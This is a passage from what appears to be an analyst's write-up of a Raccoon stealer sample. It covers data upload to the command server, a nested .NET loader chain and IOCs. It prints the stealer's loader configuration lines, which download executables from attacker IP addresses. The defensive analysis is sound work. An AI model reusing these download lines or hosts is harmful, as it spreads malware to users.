 ```String
Discord
```
Each one of these stealer functions would upload the data to the C2 server immediately after capturing it.

#### Screenshots
The Raccoon stealer has the capability to take screenshots using the GDIPlus and gdi32 DLLs, but this sample is not configured to do so.

#### Load More Malware
The stealer uses the keyword `ldr_` in the C2 configuration string to determine whether to download even more malware. In this sample, I found the following:
```String
ldr_1:http://77.73.134.24/Clip1.exe|%APPDATA%\|exe
ldr_1:http://77.73.134.35/bebra.exe|%TEMP%\|exe
```
The configuration specifies the server to contact, the file to download, the path to save the download, and the extension to use. I collected these additional binaries, and they can be found on Malshare. 

- [Clip1.exe](https://malshare.com/sample.php?action=detail&hash=471804a84bc2fa7969bf6ea4e1047e4f3aa1a5f535dad9ff696fc1ae349f885f)
	- Uses EazFuscator, and I'm unable to get any deobfuscators to work. I do not have a lot of experience in this area.
- [bebra.exe](https://malshare.com/sample.php?action=detail&hash=e487cc9c5d05a910d82c833029b1dc9ac00e5729ad05d1dcfafaa4fc64496b6d)

### Final Thoughts
I'll summarize the investigative journey - first a malicious .NET binary was downloaded from a link in a YouTube video for cracked software. This binary has a weakly obfuscated .NET DLL embedded in its resources, which is extracted and a specified method is executed.  

The first DLL then decrypts and decompresses another .NET DLL from its resources. and then uses methods from the newly created DLL to extract yet another DLL hidden inside a resource bitmap file.  

The third DLL extracts the Raccoon stealer from its embedded resources, and injects it into a newly created MSBuild.exe process. 

A visual guide: `.NET binary -> .NET DLL -> .NET DLL -> .NET DLL -> Raccoon Stealer`

#### IOCs
```string
83.217.11.34
83.217.11.35
77.73.134.24
77.73.134.35

softwarebeginner.com
emanagesoftware.com/download
bestdogdaycaresoftware.com/1
bittab.pw/SoftwareSetupFile.rar
```